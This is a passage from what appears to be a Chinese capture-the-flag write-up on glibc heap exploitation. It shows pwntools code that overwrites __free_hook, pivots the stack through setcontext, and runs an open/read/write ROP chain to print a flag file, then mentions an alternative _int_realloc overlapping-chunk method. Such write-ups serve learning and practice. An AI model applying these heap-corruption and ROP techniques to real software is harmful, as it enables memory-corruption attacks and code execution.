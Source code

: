    ```py
   free()
   add(0x168,b"a"*0x108 + p64(0xf0) + p64(free_hook_addr - 0x8))
   free()
   
   # ORW
   syscall = read_addr+15
   flag = libc_base+0x3EDA28
   
   # open(0,flag)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(pop_rax_ret)+p64(2)
   # orw+=p64(syscall)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(write_addr) + b"./flag\x00"
   
   rsp = free_hook_addr + 0xa0
   
   # 申请到free_hook 填入setcontext 和 ORW进行栈迁移
   add(0x200,b"aaa")
   free()
   
   payload = p64(0) + p64(setcontext_addr)
   payload = payload.ljust(0xa0,b"\x00")
   payload += p64(rsp) + p64(ret)
   payload +=orw
   add(0x200,payload)
   pause()
   free()
   
   p.interactive()
   
   ```



![image-20240922190821177](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409221908395.png)

还有一种解法就是像上面的例子那样，利用_int_realloc的unlink向后造成overlapping，来覆盖next字段，实现任意地址申请chunk。